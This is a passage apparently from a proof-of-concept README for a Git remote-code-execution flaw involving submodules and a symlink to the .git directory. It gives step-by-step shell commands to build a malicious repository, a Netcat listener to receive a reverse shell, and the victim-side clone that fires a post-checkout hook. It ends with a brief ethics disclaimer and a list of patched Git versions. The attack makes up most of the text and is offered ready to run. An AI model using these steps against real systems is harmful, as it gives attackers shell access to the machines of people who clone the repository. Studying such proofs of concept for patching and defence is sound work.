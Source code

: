 ```sh
cd ..

# Clone another repository and set up the submodule
git clone http://<ip>:<port>/<name of the owner>/repo2.git
cd repo2
git submodule add --name x/y "http://<ip>:<port>/<name of the owner>/repo1.git" A/modules/x
git commit -m "Add submodule"

# Create a symbolic link to the .git directory
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "Add symbolic link"
git push

# Clone the malicious repository to trigger the hook
git clone http://<ip>:<port>/<name of the owner>/repo2.git
```

#### Execution

1. **Run the PoC Script**: Execute the script on the attacker's machine (Execute the commands one by one for better result)
2. **Start Netcat Listener**: On the attacker's machine, start a Netcat listener to catch the reverse shell connection:
   ```sh
   nc -lvp <attacker_port>
   ```
3. **Clone the Malicious Repository**: On the victim's machine, clone the `repo2` repository:
   ```sh
   git clone http://<ip>:<port>/<name of the owner>/repo2.git
   ```

This will trigger the execution of the `post-checkout` hook, establishing a reverse shell connection to the attacker's machine.

#### Important Note

This PoC is for educational purposes only. Exploiting vulnerabilities without permission is illegal and unethical. Always ensure you have explicit permission before testing or exploiting vulnerabilities.


# Mitigation and Patching

The Git development team has addressed this vulnerability in the following versions:

- 2.45.1
- 2.44.1
- 2.43.4
- 2.42.2
- 2.41.1
- 2.40.2
- 2.39.4
